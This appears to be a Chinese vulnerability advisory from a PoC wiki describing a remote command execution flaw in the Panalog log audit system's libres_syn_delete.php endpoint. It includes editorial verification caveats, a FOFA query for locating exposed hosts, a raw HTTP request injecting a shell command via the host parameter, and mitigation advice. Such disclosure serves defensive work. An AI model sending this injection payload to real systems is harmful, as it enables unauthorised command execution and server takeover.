

---

source: "SourByte05/Vulnerability-Wiki-PoC"
product: "Panalog 日志审计系统"
record_type: "advisory"
review_status: "text-reviewed"
verification_status: "not-reproduced"
content_status: "needs-review"
primary_identifiers: ""
referenced_identifiers: ""
identifier_role: "unknown"
identifier_status: "unknown"
category_recommendation: "Web安全/其他软件/Panalog"
title: "Panalog 日志审计系统 libres_syn_delete.php RCE漏洞"
prerequisites: "来源所述条件，未列明部分仍待核：<=MARS r10p1Free缺版本排序依据与安全版本，token=1是否有效鉴权未说明"
side_effects: "未执行；原文未提供完整的状态变化与恢复证据，实际操作影响按本文入口、进程权限和实验条件核对"
source_status: "unknown"
id: "vw-6fefb386c0e63c5b0c355a3a"
entity_id: "ve-6fefb386c0e63c5b0c355a3a"
schema_version: "1"
---

## 核对与使用边界

- 分类更正：正文研究对象为 Panalog 日志审计系统；目录中的语言/协议或其他产品名不能代替实际受影响产品。本次只更正元数据和分类建议，原材料保持原路径。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=MARS r10p1Free缺版本排序依据与安全版本，token=1是否有效鉴权未说明

代码与实验材料：未围栏HTTP、host命令写haha.txt、结果截图；没有无副作用测试或清理

来源证据范围：SourByte05及厂商首页，缺具体公告

- **事实待核（1）**：应按产品归档且在野利用断言无证据；依据：具体Panalog接口不属PHP运行时，状态表称已知在野却无事件来源。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：修复和利用条件不可核；依据：仅厂商首页、token=1和版本上界，未解释登录条件或输出文件位置。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 关于Panalog 日志审计系统 libres_syn_delete.php RCE漏洞预警

# 漏洞描述

Panalog日志审计系统 libres_syn_delete.php接口处存在远程命令执行漏洞，攻击者可执行任意命令，接管服务器权限。

# 影响范围

version <= MARS r10p1Free

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="Panabit-Panalog"

POC/EXP：

```http
POST /content-apply/libres_syn_delete.php HTTP/1.1
Host: 127.0.0.1:4432
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Content-Length: 35
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded

token=1&id=2&host=|whoami >haha.txt
```





# 修复方案

**官方修复：**

⼚商已发布了漏洞修复程序，请及时关注更新： https://www.panabit.com

通过防⽕墙等安全设备设置访问策略，设置⽩名单访问。

如⾮必要，禁⽌公⽹访问该系统。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
